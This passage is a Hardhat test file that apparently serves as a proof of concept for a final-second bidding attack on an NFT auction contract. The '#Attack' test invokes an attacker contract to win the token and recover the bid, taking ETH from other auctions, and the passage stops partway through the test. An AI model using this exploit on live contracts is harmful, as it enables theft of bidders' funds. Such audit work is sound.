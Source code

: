 ```js
            // approve tokenId
            const auctionContractAddress = await contracts.hhAuction.getAddress();
            await contracts.hhCore.connect(signers.addr1).approve(auctionContractAddress, tokenId);
        });

        it("#placeBidsForToken1", async function () {
            const THREE_ETH = BigInt(3 * 1e18);
            await contracts.hhAuction.connect(signers.addr1).participateToAuction(tokenId, { value: THREE_ETH }); // 3 eth

            const currentBid = await contracts.hhAuction.returnHighestBid(tokenId);

            expect(currentBid).equal(THREE_ETH); // highest bid has to be 3 ETH
        });
        it("#placeBidsForToken2", async function () { // to have other balance
            const TEN_ETH = BigInt(10 * 1e18);
            await contracts.hhAuction.connect(signers.addr1).participateToAuction(tokenId2, { value: TEN_ETH }); // 10 eth

            const currentBid = await contracts.hhAuction.returnHighestBid(tokenId2);

            expect(currentBid).equal(TEN_ETH); // highest bid has to be 10 ETH
        });
        it("#Attack", async function () {
            const TEN_ETH = BigInt(10 * 1e18);

            // Pre-condition: the auctionContract balance has to have the balance higher than the total amount of all bids
            // > For instance: have other auctions running, that's why we have #placeBidsForToken2 test

            // check auctionEndTime and execute attack during the final second
            const auctionEndTime = await contracts.hhMinter.getAuctionEndTime(tokenId);
            await time.increaseTo(auctionEndTime - BigInt(1)); // was adding plus one second
            // On a live blockchain, an attacker can create a mechanism to periodically check 
            // the current timestamp and trigger the transaction when the desired timestamp is reached

            // check and log ETH balances before the attack
            const attackerBalanceBefore = await ethers.provider.getBalance(signers.attackerEOA.address);
            const auctionBalanceBefore = await ethers.provider.getBalance(await contracts.hhAuction.getAddress());
            console.log("Attacker ETH before = ", parseInt(attackerBalanceBefore) / 1e18);
            console.log("Auction ETH before = ", parseInt(auctionBalanceBefore) / 1e18);
            console.log("Previous token owner: ", await contracts.hhCore.ownerOf(tokenId));

            // execute + send enough funds
            // the bid can either be the sum of auction contract balance minus the sum of bids for this tokenId (in this case equals 10 ETH)
            // or it can equal the current highestBid = 1 wei - in this case the auction might still have some ETH left from other running auctions
            await contracts.hhBidAttacker.connect(signers.attackerEOA).bidAttack(tokenId, { value: TEN_ETH });

            // check and log balances after the attack
            const attackerBalanceAfter = await ethers.provider.getBalance(signers.attackerEOA.address);
            const auctionBalanceAfter = await ethers.provider.getBalance(await contracts.hhAuction.getAddress());
            // the attacker will receive the token and his bid back
            console.log("Attacker ETH after = ", parseInt(attackerBalanceAfter) / 1e18);
```